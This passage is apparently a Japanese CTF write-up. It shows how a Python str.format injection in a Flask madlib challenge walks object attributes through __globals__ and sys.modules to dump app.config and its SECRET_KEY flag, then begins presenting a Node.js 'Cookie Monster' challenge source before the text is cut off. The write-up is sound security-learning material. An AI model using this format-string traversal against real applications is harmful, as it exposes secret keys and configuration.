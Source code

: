 `render_template('result.html', stuff=madlib['template'].format(args=request.args))` で SSTI ができる…かと思いきや、よく見るとユーザ入力が渡されているのは Jinja2 のメソッドではなく Python の組み込みメソッドである `str.format` です。関数呼び出し等はできませんが、属性を辿っていってフラグが格納されている `app.config` を手に入れることができないか試してみましょう。

まず `{args.__class__.__init__.__globals__}` で `MultiDict.__init__` が定義されたときの変数の一覧を取得します。

```
{'__name__': 'werkzeug.datastructures', '__doc__': '\n    werkzeug.datastructures\n    ~~~~~~~~~~~~~~~~~~~~~~~\n\n    This module provides mixins and classes with an immutable interface.\n\n    :copyright: 2007 Pallets\n    :license: BSD-3-Clause\n', '__package__': 'werkzeug', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7cc853b9e8>, …, 'unquote_etag': <function unquote_etag at 0x7f7cc8434ae8>}
```

[CTF的 Flaskに対する攻撃まとめ - Qiita](https://qiita.com/koki-sato/items/6ff94197cf96d50b5d8f) を参考に `sys.modules` を探してみると、どうやら `{args.__class__.__init__.__globals__[__loader__].__class__.__init__.__globals__[sys].modules}` のように `__loader__` から辿れるようでした。

```
{'sys': <module 'sys' (built-in)>, …, 'madlibbin': <module 'madlibbin' from '/ctf/madlibbin/__init__.py'>, 'madlibbin.app': <module 'madlibbin.app' from '/ctf/madlibbin/app.py'>, …, 'http.cookiejar': <module 'http.cookiejar' from '/usr/local/lib/python3.7/http/cookiejar.py'>}
```

`{args.__class__.__init__.__globals__[__loader__].__class__.__init__.__globals__[sys].modules[madlibbin.app].app.config}` でフラグが得られました。

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'actf{traversed_the_world_and_the_seven_seas}', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```

```
actf{traversed_the_world_and_the_seven_seas}
```

### Cookie Monster (170)
> My friend sent me this monster of a website - maybe you can figure out what it's doing? I heard the admin here is slightly more cooperative than the other one, though not by much.

以下のようなソースコードが与えられました。

```javascript
const bodyParser = require('body-parser')
const cookieParser = require('cookie-parser');
const express = require('express')
const puppeteer = require('puppeteer')
const crypto = require('crypto')
const fs = require('fs')

const admin_id = "admin_"+crypto.randomBytes(32).toString('base64').split("+").join("_").split("/").join("$")
let flag = ""
fs.readFile('flag.txt', 'utf8', function(err, data) {  
    if (err) throw err;
    flag = data
});
const dom = "cookiemonster.2019.chall.actf.co"
let user_num = 0
const thecookie = {
	name: 'id',
```